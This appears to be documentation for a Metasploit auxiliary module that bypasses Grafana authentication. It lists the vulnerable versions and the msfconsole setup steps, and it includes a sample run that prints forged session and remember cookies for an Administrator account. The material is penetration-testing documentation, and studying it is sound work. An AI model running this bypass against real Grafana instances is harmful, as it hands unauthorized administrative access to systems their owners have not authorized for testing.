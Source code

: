 ## Vulnerable Application

The following list shows the vulnerable versions of Grafana when configured for LDAP or OAuth:

  1.  2.x 
  2.  3.x
  3.  4.x befroe 4.6.4
  4.  5.x before 5.2.3

## Verification Steps

  1. Start msfconsole
  2. Do: ``use auxiliary/admin/http/grafana_auth_bypass``
  3. Do: ``set username <username>`` or ``set cookie <cookie>`` 
  5. Do: ``set version``
  6. Do: ``set rhosts``
  7. Do: ``set rport``
  8. Do: ``run``

## Scenarios

  Example run against Grafana 3.x with username admin:

```
msf5 > use auxiliary/admin/http/grafana_auth_bypass 
msf5 auxiliary(admin/http/grafana_auth_bypass) > show options 

Module options (auxiliary/admin/http/grafana_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COOKIE                      no        Decrypt captured cookie
   RHOSTS     127.0.0.1        yes       Address of target
   RPORT      3000             yes       Port of target
   SSL        false            yes       set SSL/TLS based connection
   TARGETURI  /                no        Base URL of grafana instance
   THREADS    1                yes       The number of concurrent threads
   USERNAME                    no        Valid username
   VERSION    5                yes       Grafana version: "2-4" or "5" (Accepted: 2-4, 5)

msf5 auxiliary(admin/http/grafana_auth_bypass) > set RHOSTS 192.168.202.3
RHOSTS => 192.168.202.3
msf5 auxiliary(admin/http/grafana_auth_bypass) > set USERNAME Administrator
USERNAME => Administrator
msf5 auxiliary(admin/http/grafana_auth_bypass) > run

[*] Running for 192.168.202.3...
[+] Encrypted remember cookie: 1bedc565c40b58307afa4672efd72d3c37f02684c2deb0ce0b55594cbce337fc90625356dc232e998f
[+] Set following cookies to get access to the grafana instance.
[+] grafana_user=Administrator;
[+] grafana_remember=a232b98b9365d3d8f7ce253adfb9779f1114131a68cc8cbb4a53ee6f5cb71acfbe25773e95db051021;
[+] grafana_sess=4ecdc0c13ebca229;
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
